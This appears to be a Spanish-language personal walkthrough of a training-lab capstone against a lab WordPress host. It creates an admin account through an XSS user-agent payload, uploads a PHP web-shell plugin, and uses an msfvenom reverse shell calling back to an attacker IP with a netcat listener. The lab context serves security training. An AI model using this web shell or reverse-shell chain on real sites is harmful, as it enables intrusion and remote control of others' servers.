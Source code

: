 # Walk: Ejercicio de reconocimiento

## Fecha: 17/01/2025
## Host: Kali
## IP: 

---

## Objetivo
Capstone Lab: Start Module Exercise VM 1 and add a new administrative account 
like we did in this Learning Unit. Next, craft a WordPress plugin that embeds 
a web shell and exploit it to enumerate the target system. 
Upgrade the web shell to a full reverse shell and obtain the flag located in /tmp/. 
Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.

---
## Herramientas
1. curl 
2. php
3. nc
4. msfvenom
---
## Procedimiento y comandos
1. Paso 1: Creamos el usuario como en la POC anterior: 
	curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(...payload...))</script>" --proxy 127.0.0.1:8080

2. Paso 2: Creamos el plugin malicioso:
	```
		<?php
		/*
			Plugin Name: Malicious Plugin
			Description: A malicious WordPress plugin for reverse shell.
			Version: 1.0
			Author: Attacker
		*/

		// Web shell or reverse shell code here
		if (isset($_GET['cmd'])) {
		    echo "<pre>";
		    system($_GET['cmd']);
		    echo "</pre>";
		}
		?>
	```
3. Paso 3: Subimos el plugin y probamos si por url obtenemos lo que buscamos:
	* Comprimimos el plugin. Nota: el plugin debe cumplir con algunas caracteristicas, debe estar **dentro de una carpeta**, y debe **contener una cabecera**
	1. ** zip -r malicius-plugin-8.4.5.zip malicius-plugin-8.4.5/ **
	* Plugins > add new
	2. ** http://offsecwp/malicious-plugin.php?cmd=whoami**
	- resultado: www-data
4. Paso 4:Generamos el reverse Shell: 
	- **msfvenom -p php/reverse_php LHOST=192.168.45.205 LPORT=4444 -f raw > reverse-shell-msfvenom.php**
	- reverse-shell robusta con msfvenom. Se debe agregar cabecera estandar para plugins.
	- Como root: ** mkdir reverse-shell-8.4.5 && mv reverse-shell-msfvenom.php**
	- **zip -r reverse-shell-8.4.5.zip reverse-shell-8.4.5/**
	- Subimos reverse-shell-8.4.5.zip e instalamos el plugin
5. Paso 5: Escuchamos con netcat en el puerto de nuestra preferencia
	- **nc -lnvp 4444**
	- Navegamos hasta: **http://offsecwp/reverse-shell-msfvenom.php**
	- Revisamos la conexion de nc y buscamos el flag en /tmp
	
---
## Troubleshooting
1. The package could not be installed. PCLZIP_ERR_BAD_FORMAT (-10) : Unable to find End of Central Dir Record signature
	- El plugin debe cumplir con un formato en particular:
	1. Debe ser un archivo zip
	2. Debe tener la siguiente estructura: plugin/plugin.php
2. Cabecera del plugin.
	- El plugin debe tener una cabecera para cumplir con los estandares de wordpress:
	/*
           Plugin Name: Malicious Plugin
           Description: A malicious WordPress plugin for reverse shell.
           Version: 1.0
           Author: Attacker
        */

3. Conexion inestable:
**problema**:
nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.137.16] 33176
.. se desonecta automaticamente.. 
**solucion**
- generar el reverse shell con msfvenom:
**msfvenom -p php/reverse_php LHOST=192.168.45.205 LPORT=4444 -f raw > reverse-shell-msfvenom.php**
---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

